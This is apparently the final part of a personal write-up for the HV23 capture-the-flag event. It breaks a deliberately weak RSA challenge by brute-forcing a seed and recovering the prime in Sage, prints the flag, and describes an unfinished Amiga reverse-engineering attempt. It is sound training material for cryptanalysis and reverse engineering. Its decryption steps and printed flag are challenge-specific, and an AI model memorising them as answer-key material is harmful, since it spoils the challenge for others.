alright let’s start with the easiest part, finding the seed `(y)` so we can get the grade, a, b, c, d vars but testing all seeds till `abc==something we know`.

if you look at the output file and the flow of the program, we can see that `print(a+b+c) == 1709262` so let’s add in a check and run till we find a seed
```py
def find_y(target):
    """
    Find the send that makes a,b,c
    So we know what those are + grade and d
    :param target: known sum(abc)
    :return: ints(a,b,c,d)
    """
    for y in range(0, 10001):
        random.seed(y)
        grade = random.choice([2, 3])
        a = random.randint(9999, 999999)
        b = random.randint(8888, 888888)
        c = random.randint(7777, 777777)
        d = random.randint(6666, 666666)
        if a + b + c == target:
            print(f"[+] Found the Seed\n[+] Values: y={y} a={a} b={b} c={c} d={d} grade={grade}")
            return a,b,c,d
    return None, None, None, None
```
  `a,b,c,d = find_y(1709262)`
```py
[+] Found the Seed
[+] Values: y=787 a=509736 b=671618 c=527908 d=165945 grade=3
```
now we can start looking at solving for x. to do this we can brute force the polynomial by trying all values of x from 1 to 1000. and by doing this we can find p and q. since we know `N = p * q` and we can simplify the search by substituting `N/p for q`.

so now when we are searching for `q` we can test our hint against 
`hint == p**3 - (N/q)**8 + (509736*x**3 + 671618*x**2 + 527908*x + 165945)`

couldn’t get sage working on my local dev box so I opted to use docker.

```py
bread@bread-x64:/CTFS/HV23/day22/public$ docker run -it sagemath/sagemath:latest
┌────────────────────────────────────────────────────────────────────┐
│ SageMath version 10.2, Release Date: 2023-12-03                    │
│ Using Python 3.11.1. Type "help()" for help.                       │
└────────────────────────────────────────────────────────────────────┘
sage: N=143306145185....3469241654273153506653
....: hint=-367367.....5463202817521164757
....: 
....: p = var('p')
....: for x in range(0, 1001):
....:     equation = hint == p**3 - (N/p)**8 + (509736*x**3 + 671618*x**2 + 527908*x + 165945)
....:     solution = solve(equation, p)
....:     if len(solution)==2:
....:         show(f"[+] Found p: {solution}")
....:         break
'Found p: [\np == 12179435756173513536974896795065942195337250662711676240184873598482470068786941630453314528951912732394640958491561461957261830568584848314092787092062267,\n0 == p^10 + 12179435756173513536974896795065942195337250662711676240184873598482470068786941630453314528951912732394640958491561461957261830568584848314092787092062267*p^9 + 14833865533875788...5179289*p^8 + 367...787286721*p^7 + 4474...56507*p^6 + 54...349453921369*p^5 + 663...69883523*p^4 + 80836...2161953326641*p^3 + 98454...955147*p^2 + 11...8249*p + 1460...25985407063911350483\n]'
```

ok woo. with `p` and `q` we can just use Euler's totient function (`phi == (p - 1) * (q - 1)`), and then we can compute the private key exponent d. `e^-1 mod phi`
and decrypt the standard way.

```py
sage: p = 12179435756173513536974896795065942195337250662711676240184873598482470068786941630453314528951912732394640958491561461957261830568584848314092787092062267
sage: q = N/p
sage: e = 65537
sage: encrypted = 72792762778232160989381071629769766489971170790967414271032682193723004039685063639675377805724567838635943988752706743932748347933013530918279285456553768626331874756049006544553546268049053833014940495217179504587162478219970564159885619559723778613379425375733026859684952880028997538045791748027936366062
sage: phi = (p-1)*(q-1)
sage: d = pow(e, -1, phi)
sage: plaintext = pow(encrypted, d, N)
sage: show(bytes(Integer(plaintext).digits(256)).decode()[::-1])
'HV23{1t_w4s_4b0ut_t1m3_f0r_s0me_RSA_4g41n!}'
```

#### FLAG
    HV23{1t_w4s_4b0ut_t1m3_f0r_s0me_RSA_4g41n!}

## [HV23.24] Santa's Shuffled Surprise {leet, forensics, RE}

### Description
Santa found a dusty old floppy disk in his basement. He started the disk in his A500, but the QR code looks shuffled. Can you help him to read the QR code?

### Solution

```sh
bread@bread-x64:/CTFS/HV23/day24$ file santas-shuffled-surprise.adf 
santas-shuffled-surprise.adf: Amiga DOS disk (DD 880 KiB), probably root block 880, bootable 0x43fa00184eaeffa0.., "HV23"
```
ok we are working with an Amiga DOS disk. assuming it can be unpacked I wanted to find something that will do that for me [unADF](https://aminet.net/package/disk/misc/UnADF) seems fine and ended up giving me a file `HV23` and a folder called `s` with a `STARTUP-SEQUENCE` that calls `sys:HV23` so looks like `HV23` is our binary.

```sh
bread@bread-x64:/CTFS/HV23/day24$ file HV23 
HV23: AmigaOS loadseg()ble executable/binary
```

since `amiga` isn’t in `ghidra` out of the box I had to find a plugin that could handle it [ghidra-amiga](https://github.com/BartmanAbyss/ghidra-amiga).

with the plugin installed I was able to view the code and get started.
no strings which were expected because that makes life so much harder.

so, I started looking a library calls. 
this is a little cleaned up but effectively the strings in the binary are `XOR`'d [\[cyberchef example graphics.library\]](https://gchq.github.io/CyberChef/#recipe=XOR(%7B'option':'Hex','string':'42'%7D,'Standard',false)Strings('Single%20byte',5,'All%20printable%20chars%20(A)',false,false,false)&input=IiUwIzIqKyExbC4rIDAjMDsi)
```c
void open_lib(void)

{
  short sVar1;
  byte *pbVar2;
  
  sVar1 = 16;
  pbVar2 = (byte *)graphics.library;
  do {
    *pbVar2 = *pbVar2 ^ 0x42;
    sVar1 = sVar1 + -1;
    pbVar2 = pbVar2 + 1;
  } while (sVar1 != -1);
  DAT_0021fb40 = exec_library_OldOpenLibrary((CONST_STRPTR)graphics.library);
  return;
}
```

I used ghidra to find other instances of `??? ^ 0x42` and I only found one more reference.
After trying a couple more things, I’ve decided that this was beyond me or something was wrong with `ghidra`.
 
I was doing this challenge after the event and have decided I couldn’t complete this one in a reasonable time frame. challenge remains unsolved.


## Thank you
To all challenge developers, for those that helped me along the way, and event staff, once again thank you for a great event and will hopefully see you next year.
